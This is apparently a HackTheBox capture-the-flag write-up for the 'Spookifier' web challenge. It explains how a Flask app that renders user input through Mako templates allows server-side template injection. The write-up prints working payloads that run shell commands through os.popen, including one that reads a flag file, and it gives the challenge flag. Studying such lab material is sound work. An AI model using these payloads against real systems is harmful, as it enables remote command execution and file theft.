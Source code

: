 ```yaml
---
title: HackTheBox Challenge - Spookifier
authors: Samarth
date: 2022-10-28 14:00:00 +0530
categories: [HackTheBox, Challenges]
tags: [Web]
math: true
mermaid: true
---
```


![Banner](/assets/images/htb-chall/Spookifier/banner.png)

## Description

<b>There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?</b>

## Solution

Since this is a web challenge, I began by browsing the target website provided.

![Target Website](/assets/images/htb-chall/Spookifier/1.png)

I typed the name as `test`, and in response, the website gave me the same output in four different fonts.

![Name Spookifier](/assets/images/htb-chall/Spookifier/2.png)

While checking the page source and Network Tab under DevTools, I didn't find anything interesting.

The challenge itself contains some files that are necessary for the challenge. By inspecting the source code of the application, I found that the application is built using `Flask` in Python.

When a user submits the form, a GET request is sent to the root endpoint (`/`) with the submitted Halloween name passed as a query parameter (`text`).

The server handles this input by invoking a function called `spookify`, which then forwards it to another function responsible for formatting the output. The `generate_render()` function ultimately produces the final result, and its implementation is as follows:

**routes.py**
```python
from flask import Blueprint, request
from flask_mako import render_template
from application.util import spookify

web = Blueprint('web', __name__)

@web.route('/')
def index():
    text = request.args.get('text')
    if(text):
        converted = spookify(text)
        return render_template('index.html',output=converted)
    
    return render_template('index.html',output='')
```

This Flask application uses **Mako templates (`flask_mako`)** and defines a route (`/`) that takes a query parameter `text`. If `text` is provided, it processes the input using the `spookify` function, which likely transforms the text into different fonts or styles. The transformed output is then passed to the `index.html` template via `render_template`.

While inspecting `util.py`, I came across code that transforms a given text into multiple font styles and returns an HTML-rendered table displaying the results. The `spookify` function first calls `change_font`, which converts the input text into different fonts using predefined font mappings (`font1`, `font2`, etc.). The transformed text is then passed to `generate_render()`, which formats it into an HTML table using Mako's `Template.render()`. This setup allows a Flask web application to display the same text in various stylized fonts dynamically.

**util.py**
```python
def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()

def change_font(text_list):
	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

	add_font_to_list(text_list, 'font1')
	add_font_to_list(text_list, 'font2')
	add_font_to_list(text_list, 'font3')
	add_font_to_list(text_list, 'font4')

	return all_fonts

def spookify(text):
	converted_fonts = change_font(text_list=text)

	return generate_render(converted_fonts=converted_fonts)
```
The `generate_render()` function directly passes the user input into the template without any validation, which hints that the input field is vulnerable to `Server-Side Template Injection (SSTI)`.

I will try a very simple mathematical expression 	`${7*7}` in the input field and wait for the response.

![Template Injection](/assets/images/htb-chall/Spookifier/3.png)

The response is `49` which confirms that the application is vulnerable to `SSTI`.

As we have access to the source code, we know that the flag is stored in a file named `flag.txt`. To read the flag, we first need to determine the current working directory by executing the `pwd` command.

```python
${__import__('os').popen('pwd').read()}
```

![current directory](/assets/images/htb-chall/Spookifier/4.png)

The output revealed that the current directory is `/app`, meaning we need to go up one level to access the `flag.txt` file.

```python
${__import__('os').popen('cat ../flag.txt').read()}
```

![Flag found](/assets/images/htb-chall/Spookifier/5.png)

Flag - 
```ruby
HTB{t3mpl4t3_1nj3ct10n_C4n_3x1st5_4nywh343!!}
```

[![Pwned](/assets/images/htb-chall/Spookifier/pwned.png)](https://www.hackthebox.com/achievement/challenge/337503/413)

Thanks for reading this far. If you enjoyed the writeup, do support me [__here__](https://www.buymeacoffee.com/h4xplo1t){:target="_blank"}.




